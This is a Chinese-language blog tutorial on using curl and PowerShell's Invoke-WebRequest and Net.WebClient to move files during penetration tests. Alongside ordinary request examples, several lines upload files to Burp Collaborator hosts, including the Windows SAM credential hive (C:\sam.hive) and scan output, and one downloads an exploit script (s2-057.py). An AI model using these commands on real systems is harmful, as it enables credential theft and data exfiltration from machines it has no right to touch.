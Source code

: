 ```yaml
---
title: "curl详解" # 文章标题
date: 2018-07-15T14:30:00+08:00 # 文章创建日期
draft: false # 是否为草稿，true 表示草稿，不会在网站上显示
author: "runshell" # 文章作者
description: "介绍Linux curl命令用法和Windows服务器powershell实现类似功能的方法" # 文章描述
tags: ["curl"] # 文章标签
categories: ["网络安全"] # 文章分类
---
```


## 0x00 前言

在渗透测试中经常需要在艰难的环境下执行命令，比如没有回显。为了摆脱困境，经常需要传送文件。curl 是一个非常厉害的工具，在绝大多数情况下，linux 系统中是存在 curl 的。此外 Windows 系统中，powershell4.0 及其以后的版本中提供了一个 cmlet——`Invoke-WebRequest`，其别名之一是 curl。所以，简单介绍一下 curl 的用法。

## 0x01 Linux 中的 curl

### 1.http 请求

- **get**

curl 命令后面直接跟 url；使用-H 指定请求头，每个-H 指定一条 header；使用 -o 指定输出到具体文件而不是标准输出。

```bash
curl 'https://files.xx.cn/others/Q1NBQS3lhoXnvZHmuJfpgI_mioDmnK8t56ysMTbor74tU01C5Y2P6K6uLnBkZg==?time=1537360082&sign=5fd0f26e3346e8171e8656caaa42b0fc' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36' -H 'Referer: https://admin.xx.cn/user/student/course/1032'
```

- **post**

普通表单 post，使用-d 指定请求体内容。

```bash
curl -d "user=admin&passwd=12345678" http://127.0.0.1:8080/login
```

文件表单 post，使用-F 指定需要上传的文件。

```bash
curl http://oumchi.burpcollaborator.net -F "6379.txt=@6379.txt"

# 发送出的请求如下：
# POST / HTTP/1.1
# Host: oumchi.burpcollaborator.net
# User-Agent: curl/7.58.0
# Accept: */*
# Content-Length: 1978
# Content-Type: multipart/form-data; boundary=------------------------c9011604f054ee36
# Expect: 100-continue

# --------------------------c9011604f054ee36
# Content-Disposition: form-data; name="6379.txt"; filename="6379.txt"
# Content-Type: text/plain


# Starting Nmap 7.60 ( https://nmap.org ) at 2018-09-01 08:25 UTC
# Stats: 0:01:21 elapsed; 0 hosts completed (64 up), 64 undergoing SYN Stealth Scan
# SYN Stealth Scan Timing: About 3.82% done; ETC: 09:00 (0:34:01 remaining)
# Stats: 0:01:21 elapsed; 0 hosts completed (64 up), 64 undergoing SYN Stealth Scan
# SYN Stealth Scan Timing: About 3.82% done; ETC: 09:00 (0:33:59 remaining)
# Stats: 0:01:21 elapsed; 0 hosts completed (64 up), 64 undergoing SYN Stealth Scan
# SYN Stealth Scan Timing: About 3.83% done; ETC: 09:00 (0:33:55 remaining)

# --------------------------c9011604f054ee36--

```

- put

```bash
curl http://6biy7e.burpcollaborator.net/ -T ca_setup.exe
```

- 其它方法测试

```bash
curl http://www.example.com -X OPTIONS
curl http://www.example.com -X TRACE
...
```

### 2.ftp 请求

- **get**

```bash
curl ftp://user:passwd@ftpserver.com:port/path/filename -o filepath
```

- **put**

```bash
curl –u name:passwd -T size.mp3 ftp://www.xxx.com/mp3/
```

- **ls(dir)**

```bash
curl ftp://user:passwd@ftpserver.com:port/path/
```

- **delete**

```bash
curl –u name:passwd ftp://www.xxx.com/ -X 'DELE mp3/size.mp3'
```

### 3.其他

```ba'sh
-u, --user <user:password> 需要口令验证的http或ftp
--ntlm 使用htlm认证
-A, --user-agent <name> 指定请求头中的user-agent字段
--socks5 <host[:port]> 使用sockes5代理
-x, --proxy [protocol://]host[:port] 使用http/https代理

--post301       Do not switch to GET after following a 301 不跳转301
--post302       Do not switch to GET after following a 302 不跳转302
--post303       Do not switch to GET after following a 303 不跳转303

```

## 0x02 Windows 中的 curl

powershell 中的 curl 是`Invoke-WebRequest`，它的另一个别名是 wget。它是使用`-Headers <IDictionary>`来指定请求头，powershell5.x 即以前版本可以指定所有请求头，之后的版本 UserAgent 只能通过`-UserAgent <String>`指定。

```powershell
Invoke-WebRequest [-Uri] <Uri> [-Body <Object>] [-Certificate <X509Certificate>] [-CertificateThumbprint <String>] [-ContentType <String>] [-Credential <PSCredential>
    ] [-DisableKeepAlive] [-Headers <IDictionary>] [-InFile <String>] [-MaximumRedirection <Int32>] [-Method { Default | Get | Head | Post | Put | Delete | Trace | Options
     | Merge | Patch}] [-OutFile <String>] [-PassThru] [-Proxy <Uri>] [-ProxyCredential <PSCredential>] [-ProxyUseDefaultCredentials] [-SessionVariable <String>] [-Timeou
    tSec <Int32>] [-TransferEncoding {chunked | compress | deflate | gzip | identity}] [-UseBasicParsing] [-UseDefaultCredentials] [-UserAgent <String>] [-WebSession <Web
    RequestSession>] [<CommonParameters>]
```

### 1.http

- **get**

使用-UserAgent 指定 UA，使用-Headers 指定请求头，使用-OutFile 指定输出到文件。若不使用-OutFile，将返回一个 HtmlWebResponseObject 对象，只在屏幕上显示部分摘要信息，若要显示详细信息可以先将其存入变量，再查看变量 content 等属性。若只想产看响应体，可用管道符传给`write-host`,如`curl ifconfig.me | write-host` 。

```powershell
Invoke-WebRequest -Uri "https://files.xx.cn/others/Q1NBQS3lhoXnvZHmuJfpgI_mioDmnK8t56ysMTbor74tU01C5Y2P6K6uLnBkZg==?time=1537360082&sign=5fd0f26e3346e8171e8656caaa42b0fc" -Headers @{"Accept"="*/*"; "Referer"="https://admin.xx.cn"} -UserAgent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36" -OutFile xxx.pdf
```

- **post**

在使用非 get 方法时必须用-Method 指定请求方法；请求体可以用-body 指定一个 string 或其它类型的对象，也可以从本地文件获取内容作为请求体，使用-infile 指定本地文件。

```powershell
curl http://lti9gf.burpcollaborator.net -Method post -Body "user=admin&passwd=12345678"
```

- **put**

如果服务器支持 put 方法，可以直接 put 上传文件

```powershell
curl http://lti9gf.burpcollaborator.net -Method put -InFile ‪C:\sam.hive
```

### 2.ftp

似乎只能下载文件

```powershell
curl ftp://user:password@127.0.0.1:21/s2-057.py -outFile s2-057.py
```

## 0x03 net.webclient

在 powershell4.0 以前没有提供`Invoke-WebRequest`,这时我们可以使用 Net.WebClient，它是.NET Framework 中的一个类。它的功能更加强大。

```powershell
#ftp下载
(New-Object System.Net.WebClient).downloadfile('ftp://admin:admin@172.28.100.68/ppt.txt','ppt.txt')

#ftp上传
(New-Object System.Net.WebClient).uploadfile('ftp://admin:admin@172.28.100.68/ppt1.txt','ppt.txt')

#http上传
(New-Object System.Net.WebClient).uploadfile('http://8060wg.burpcollaborator.net','ppt.txt')

#http下载文件
(New-Object System.Net.WebClient).downloadfile('http：//172.28.100.68/ppt.txt','ppt.txt')

#下载到内存
$response=(New-Object System.Net.WebClient).downloadstring('http：//172.28.100.68/ppt.txt')#得到string
$response=(New-Object System.Net.WebClient).downloaddata('http：//172.28.100.68/ppt.txt')#得到byte[]
#从内存上传
(New-Object System.Net.WebClient).uploadstring('http://8060wg.burpcollaborator.net',$response)
(New-Object System.Net.WebClient).uploaddata('http://8060wg.burpcollaborator.net',$response)

#指定请求头
$mywebclient=(New-Object System.Net.WebClient);
$mywebclient.Headers.Add("Cookie"," HMACCOUNT=057DAB164B4FC7D1; BAIDUID=3C7BA5C29716B9F251F8BC090E0BF028:FG=1; BIDUPSID=3C7BA5C29716B9F251F8BC090E0BF028; PSTM=1532227383")
$mywebclient.Headers.Add("Referer","https://newtab.firefoxchina.cn/world-tab-index.html")
$mywebclient.downloadstring('http://8060wg.burpcollaborator.net')


```
